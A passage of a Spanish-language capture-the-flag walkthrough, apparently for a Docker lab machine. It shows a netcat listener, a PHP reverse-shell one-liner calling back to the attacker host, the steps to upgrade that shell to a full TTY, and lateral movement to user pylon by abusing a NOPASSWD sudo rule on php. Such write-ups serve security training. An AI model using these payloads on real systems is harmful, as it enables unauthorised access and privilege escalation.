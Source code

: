 ```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
```

Ejecutamos el siguiente payload para que genere la shell reversa:

```bash
php -r '$sock=fsockopen("172.17.0.1",8888);exec("/bin/bash <&3 >&3 2>&3");'
```

Y para terminar hacemos el tratamiento de la shell para tener una TTY completa:

```bash
nc -nlvp 8888
listening on [any] 8888 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 55124
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
script /dev/null -qc /bin/bash
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@28f7a25fdecd:$ ^Z
zsh: suspended  nc -nlvp 8888
```

```bash
stty raw -echo; fg
[1]  + continued  nc -nlvp 8888
ls
www-data@28f7a25fdecd:$ export TERM=xterm
www-data@28f7a25fdecd:$ reset
```

Ahora ya en nuestra máquina vemos con `sudo -l` si podríamos ejecutar algo como otro usuario:

```bash
www-data@28f7a25fdecd:$ sudo -l
Matching Defaults entries for www-data on 28f7a25fdecd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 28f7a25fdecd:
    (pylon) NOPASSWD: /usr/bin/php
```

# Movimientos laterales

Podríamos ejecutar como **pylon** el comando `php` sin necesidad de contraseña. Vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) y encontramos como ejecutarlo con **sudo** para hacer el movimiento lateral

```bash
www-data@28f7a25fdecd:$ CMD="/bin/bash"
www-data@28f7a25fdecd:$ sudo -u pylon php -r "system('$CMD');"
pylon@28f7a25fdecd:$ whoami
pylon
```
